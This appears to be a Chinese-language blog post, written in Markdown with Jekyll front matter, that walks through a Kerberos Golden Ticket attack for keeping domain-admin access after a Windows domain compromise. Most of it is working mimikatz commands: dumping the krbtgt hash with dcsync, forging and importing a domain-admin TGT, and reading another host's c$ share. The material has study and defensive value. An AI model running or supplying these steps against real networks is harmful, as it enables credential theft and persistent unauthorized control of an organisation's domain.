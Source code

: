 ```yaml
---
layout: post
title: Pass the Ticket——Goldenn Ticket
date: 2018-12-26 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
导出域管hash或明文密码后并不一定万事大吉，如果所有域管全部更改密码后我们之前的导出的hash和密码就没用了，如果我们还有域内机器普通用户的权限的话，可以通过本文的方法找回域管权限。本文主要聊一下在域渗透后期如何利用Kerberos认证过程中的问题来维持域权限。  

![golden ticket](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/golden%20ticket.jpg?raw=true) 图片来源于:https://image.slidesharecdn.com/3mnefd0ktnm25fuhevql-signature-3ee8f429e83aad7c58c04030239c498ebd8980c84258ad24441a38c6b7673977-poli-141010140847-conversion-gate02/95/bluehat-2014-the-attackers-view-of-windows-authentication-and-post-exploitation-25-638.jpg?cb=1412950380



### \#0x01 原理简介
在Kerberos认证过程中，用户的Ticket都是由Kerberos用户krbtgt的密码Hash生成的，如果获得了krbtgt密码的hash，则可以尝试伪造用户的Ticket，当然我们关心的是域管的Ticket。  
详细的Kerberos认证过程和Pass the Ticket的过程参见【参考】部分。  

### \#0x01 获取伪造Ticket所需数据
伪造Ticket所需的数据主要有  
1、krbtgt用户的nt hash  
2、域SID  
3、域名称  
4、域内机器普通用户权限

krbtgt的hash值可以在域控上通过mimikatz获取，在域控上执行如下命令  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```
![get krbtgt hash](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/get%20krbtgt%20hash_1.jpg?raw=true)  

从上图中可以得到nt hash：30eefxxxxxxxxxxxxxxxxxxxxxxxcbc4e和域SID：S-1-5-21-xxxxxxxxx-xxxxxxxxxxx1-xxxxxxxxxxxxx  

### \#0x02 伪造Golden Ticket并导入——Pass the Ticket
使用非域管账户登录域内已控的机器，在该机器上完成域管权限的找回。  
1、首先查看下系统是否已有tgt  
```
mimikatz # kerberos::tgt
```
![have no tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20tgt.jpeg?raw=true) 
2、验证在没有tgt的情况下本地用户是否具有域管权限  
访问域内其他机器需要认证的共享文件  
![have no permission](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20permission_1.jpg?raw=true) 
3、生成tgt  
这里以域domain_name 和拟伪造的域管AD_admin_user为例进行说明  
```
mimikatz # kerberos::golden /user:AD_admin_user /domain:domain_name /sid:S-1-5-21-168xxxxx-3676xxxxxx1-34xxxx0176 /krbtgt:30eef769c3xxxxxxxxxxxcbc4e /ticket:AD_admin_user.kiribi
```
命令执行完成后，将在本目录下生成文件AD_admin_user.kiribi  
![create tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/create%20tgt_1.jpg?raw=true) 
4、导入tgt 
``` 
mimikatz # kerberos::ptt AD_admin_user.kiribi
```
![import tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20tgt_1.jpg?raw=true) 
5、查看导入是否成功  
```
mimikatz # kerberos::tgt
```
![import success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20success_1.jpg?raw=true) 

6、尝试访问域内其他机器上的文件  
```
dir \\vas-xxxxxx\c$
```
![success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/success_1.jpg?raw=true) 

### \#0x03 参考
* [域渗透的金之钥匙](http://drops.wooyun.org/tips/9591)
* [域渗透——Pass The Ticket](http://drops.wooyun.org/tips/12159)
* [谈谈基于Kerberos的Windows Network Authentication[上篇]](http://www.cnblogs.com/artech/archive/2007/07/05/807492.html)
* [[原创]谈谈基于Kerberos的Windows Network Authentication - Part II](http://www.cnblogs.com/artech/archive/2007/07/07/809545.html)
* [敞开的地狱之门：Kerberos协议的滥用](https://www.freebuf.com/articles/system/45631.html)
